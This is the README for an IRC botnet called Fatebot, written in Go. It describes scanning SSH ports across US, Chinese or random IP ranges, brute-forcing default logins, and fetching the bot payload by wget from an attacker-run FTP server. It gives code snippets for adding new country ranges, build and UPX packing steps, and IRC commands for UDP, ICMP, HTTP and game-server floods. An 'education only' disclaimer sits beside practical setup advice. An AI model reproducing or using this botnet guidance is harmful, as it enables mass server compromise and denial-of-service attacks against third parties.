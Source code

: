 # Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/fatebot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first... It's very important for The infect process. <strong>(It just me, You can use any option any server type that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tips: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target.
	?post 	<url>			Flood HTTP post request to target.
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <server>	Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
